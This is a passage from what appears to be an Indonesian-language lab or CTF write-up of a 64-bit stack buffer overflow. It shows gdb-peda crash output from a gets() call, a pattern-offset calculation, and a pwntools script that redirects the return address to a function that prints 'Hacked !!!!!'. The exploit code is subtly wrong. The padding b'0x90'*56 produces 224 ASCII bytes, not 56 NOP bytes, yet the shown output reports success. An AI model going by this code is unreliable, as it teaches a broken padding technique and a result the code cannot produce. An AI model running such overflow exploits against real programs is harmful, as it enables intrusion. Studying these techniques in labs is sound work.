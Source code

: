 ```bash
R12: 0x401060 (<_start>: xor    ebp,ebp)
R13: 0x7fffffffe600 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x401186 <foo+32>: call   0x401050 <gets@plt>
   0x40118b <foo+37>: nop
   0x40118c <foo+38>: leave  
=> 0x40118d <foo+39>: ret    
   0x40118e <main>: push   rbp
   0x40118f <main+1>: mov    rbp,rsp
   0x401192 <main+4>: mov    eax,0x0
   0x401197 <main+9>: call   0x401166 <foo>
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe518 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0008| 0x7fffffffe520 ("AAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0016| 0x7fffffffe528 ("IAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0024| 0x7fffffffe530 ("AJAAfAA5AAKAAgAA6AAL")
0032| 0x7fffffffe538 ("AAKAAgAA6AAL")
0040| 0x7fffffffe540 --> 0x4c414136 ('6AAL')
0048| 0x7fffffffe548 --> 0x40118e (<main>: push   rbp)
0056| 0x7fffffffe550 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x000000000040118d in foo () at vuln_program.c:15
15 }
gdb-peda$ pattern offset 0x4147414131414162
4703800084066812258 found at offset: 48
```

sehingga untuk sampai dengan EBP  = 48 bytes + 8 bytes (64 bit) = 56

exploit sebagai berikut

```python
from pwn import *

p = process('./vuln64')
print(p.recv())
padding = b'0x90'*56
ret_address = p64(0x401146)
p.sendline(padding+ret_address)
print(p.clean())
p.interactive()

```

hasilnya 

```bash
python3 exploit.py 
[+] Starting local process './vuln64': pid 17165
b'give me your input :)\n'
b'\nHacked !!!!!\n'
[*] Switching to interactive mode

```